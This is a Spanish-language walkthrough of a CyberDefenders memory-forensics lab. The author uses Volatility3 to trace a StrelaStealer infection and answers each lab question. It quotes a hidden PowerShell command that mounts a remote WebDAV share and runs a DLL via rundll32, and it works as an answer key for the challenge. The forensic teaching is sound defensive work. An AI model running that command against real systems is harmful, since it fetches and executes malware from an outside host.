En este laboratorio de **[Cyberdefenders](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/)**, asumiremos el rol de un analista forense frente a un posible compromiso en una institución financiera. El **SIEM** ha detectado actividad inusual en una estación de trabajo con acceso a datos sensibles, lo que nos ha llevado a recibir un **memory dump** de la máquina comprometida para investigar el incidente. Utilizaremos **Volatility3** para analizar el volcado de memoria y obtener una visión detallada del sistema en el momento del ataque. Nuestro objetivo será identificar procesos maliciosos, rastrear conexiones de red y evaluar la persistencia del atacante, todo con el fin de comprender el alcance del incidente y aplicar medidas efectivas para contener la amenaza.

~~~
Platform: CyberDefenders
Level: Easy
Type: Endpoint Forensics, DFIR
~~~

### Lab Scenario

> Eres un investigador forense en una institución financiera, y tu SIEM ha detectado actividad inusual en una workstation con acceso a datos financieros sensibles. Sospechando una brecha de seguridad, has recibido un volcado de memoria de la máquina comprometida. Tu tarea es analizar la memoria en busca de signos de compromiso, rastrear el origen de la anomalía y evaluar su alcance para contener el incidente de manera efectiva.

### Key Information

- Un **`Memory Dump (volcado de memoria)`** es una captura del contenido de la memoria RAM de un sistema en un momento específico. Se utiliza para analizar el estado del sistema en caso de fallos, ataques de malware o investigaciones forenses

### Analysis

Utilizaremos **[Volatitlity](https://github.com/volatilityfoundation/volatility)**, una herramienta de forense avanzada de código abierto que es utilizada para realizar investigaciones detalladas en **volcados de memoria (memory dumps)**. Permite a los analistas extraer y analizar información relevante de la memoria RAM de un sistema comprometido, como procesos en ejecución, conexiones de red, archivos sospechosos, contraseñas almacenadas y rastros de malware.

#### Task #1

> Identificar el nombre del proceso malicioso ayuda a comprender la naturaleza del ataque. ¿Cuál es el nombre del proceso malicioso?

Usar el plugin **`cmdline`** de Volatility3 es una buena manera de empezar a buscar procesos maliciosos en un volcado de memoria. El plugin **cmdline** muestra los argumentos de línea de comandos de los procesos en ejecución, lo que puede revelar comportamientos sospechosos. Procedo a utilizar Volatility3 con el plugin en el volcado de memoria **`./vol.py -f ../../CTF/CyberDefenders/192-Reveal.dmp windows.cmdline`** 



Los procesos maliciosos a menudo usan argumentos de línea de comandos inusuales para ocultar su actividad o realizar tareas maliciosas. Observamos que el proceso **`powershell.exe`** está ejecutando comandos extremadamente sospechosos:



**`powershell.exe`** ejecuta el comando **`-windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`** lo que es muy sospechoso ya que: 

- **`-windowstyle hidden`**: significa que la ventana de PowerShell estará oculta para el usuario, lo que significa que trata de pasar desapercibido del mismo.

- **`net use \\45.9.74.32@8888\davwwwroot\ ;`**: **`net use`** es un comando que se usa para conectarse a recursos compartidos en una red y **`\\45.9.74.32@8888\davwwwroot\`** indica un intento de conectarse a un servidor remoto en la dirección IP **45.9.74.32**, en el puerto 8888, a una carpeta compartida llamada "davwwwroot". Es probable que sea un intento de montar un recurso compartido WebDAV remoto. WebDAV es a menudo abusado por los atacantes para alojar y ejecutar archivos maliciosos. 

- **`rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`**: `rundll32.exe` es una utilidad de Windows que se usa para ejecutar archivos DLL (Dynamic Link Library). Este comando intenta ejecutar la función "entry" dentro del archivo "**3435.dll**" ubicado en el recurso compartido WebDAV remoto. Esta es una técnica clásica para ejecutar código malicioso. Los atacantes usan **`rundll32`** para eludir las medidas de seguridad y ejecutar su código sin ejecutar directamente un archivo ejecutable. 
 



#### Task #2

> Conocer el ID del proceso padre (**PPID**) del proceso malicioso ayuda a rastrear la jerarquía de procesos y comprender el flujo del ataque. ¿Cuál es el PPID del proceso malicioso?

Utilizamos el plugin **`pstree`** de Volatility3 para visualizar la relación jerarquica entre procesos 



Se observa que el **PPID** del proceso **`powershell.exe`** es **4120**, su **PID** es **3692**. Parece ser que tiene una relación padre-hijo los procesos activos **`net.exe`** y **`conhost.exe`**, ambos con el **PPID 3692**. 

!

Esto concuerda con lo visto anteriormente, el uso de **`net.exe`** para manipular la red y **conhost.exe** que indica que los comandos ejecutados por **`powershell.exe`** se están ejecutando en una consola (aunque oculta).



#### Task #3

> Determinar el nombre del archivo utilizado por el malware para ejecutar la carga útil de segunda etapa es crucial para identificar actividades maliciosas posteriores. ¿Cuál es el nombre del archivo que el malware usa para ejecutar la carga útil de segunda etapa?

Como notamos anteriormente al ejecutar el plugin **`cmdline`**, el nombre del archivo malicioso que el malware usa para ejecutar la carga útil es **`3435.dll`**





#### Task #4

> Identificar el directorio compartido en el servidor remoto ayuda a rastrear los recursos objetivo del atacante. ¿Cuál es el nombre del directorio compartido que está siendo accedido en el servidor remoto?

Con el mismo plugin utilizado anteriormente es posible observar que el nombre del recurso compartido al cual el atacante accedió tiene como nombre **`davwwwroot`**





#### Task #5

> ¿Cuál es la ID de la sub-técnica de MITRE ATT&CK que describe la ejecución de una carga útil de segunda etapa utilizando una utilidad de Windows para ejecutar el archivo malicioso?

Es necesario una simple busqueda en internet: **`rundll32 second-stage payload "MITRE"`** para saber que la sub-técnica de MITRE ATT&CK que describe la ejecución de una carga útil de segunda etapa utilizando una utilidad de Windows para ejecutar el archivo malicioso es:

- **T1218: Binary Proxy Execution**



Dentro de T1218, hay sub-técnicas específicas. Cuando se trata de utilidades como **`rundll32`**:

- **T1218.011: Rundll32**



Esta sub-técnica describe específicamente el uso de **`rundll32`** para ejecutar código malicioso por lo que encaja más con este escenario. Como se observo anteriormente, el atacante utilizo **`rundll32`** para ejecutar una dll alojada en un servidor remoto.



#### Task #6

> Identificar el nombre de usuario bajo el cual se ejecuta el proceso malicioso ayuda a evaluar la cuenta comprometida y su posible impacto. ¿Cuál es el nombre de usuario bajo el que se ejecuta el proceso malicioso?

Para saber el nombre del usuario bajo el que se ejecuta el proceso **`powershell.exe`** hacemos uso del plugin `sessions` de Volatility 3 el cual extrae y analizar información sobre las sesiones de inicio de sesión activas en un sistema Windows en el momento en que se tomó un volcado de memoria. En otras palabras, permite ver quién estaba conectado y cuándo. 



Ejecutamos el comando con el **PID** **`./vol.py -f ../../CTF/CyberDefenders/192-Reveal.dmp windows.sessions --pid 3692`** para filtrar por el proceso malicioso.


Por lo visto, el usuario es bajo el cual se ejecutó el proceso malicioso es **`Elon`**



#### Task #7

> Conocer el nombre de la familia del malware es esencial para correlacionar el ataque con amenazas conocidas y desarrollar defensas adecuadas. ¿Cuál es el nombre de la familia del malware?

Anteriormente encontramos la dirección IP la cual intentó acceder al recurso compartido: **`45.9.74.32`**. Existen servicios en línea que mantienen bases de datos de direcciones IP asociadas con actividades maliciosas, una de las más conocidas es **[VirusTotal](https://virustotal.com/gui)**



Luego de analizar la dirección IP en **VirusTotal** notamos que la dirección IP está relacionada con actividad del malware **`STRELASTEALER`**.  **STRELASTEALER** un tipo de malware conocido como "stealer" (ladrón de información). Su objetivo principal es robar datos confidenciales de los sistemas comprometidos.





**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/192/ )**

